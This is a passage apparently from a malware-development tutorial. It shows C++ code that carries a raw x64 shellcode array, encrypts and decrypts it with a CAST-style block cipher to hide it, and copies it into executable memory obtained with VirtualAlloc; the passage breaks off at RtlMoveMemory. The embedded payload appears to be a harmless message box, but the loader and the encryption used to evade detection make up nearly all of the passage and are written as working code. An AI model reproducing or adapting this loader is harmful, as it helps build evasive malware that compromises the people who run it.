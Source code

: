 As you can see, they process the shellcode block by block (`8 bytes` at a time). Note that if the shellcode length is not a multiple of the block size, it is padded (`0x90`) before encryption and decrypted accordingly.    

Finally, we need to run payload:    

```cpp
int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  unsigned char padded[my_payload_len];
  memcpy(padded, my_payload, my_payload_len);

  uint32_t subkeys[ROUNDS][4];
  cast_key_schedule(key, subkeys);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  cast_encrypt_shellcode(padded, my_payload_len, subkeys);

  printf("encrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  cast_decrypt_shellcode(padded, my_payload_len, subkeys);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
```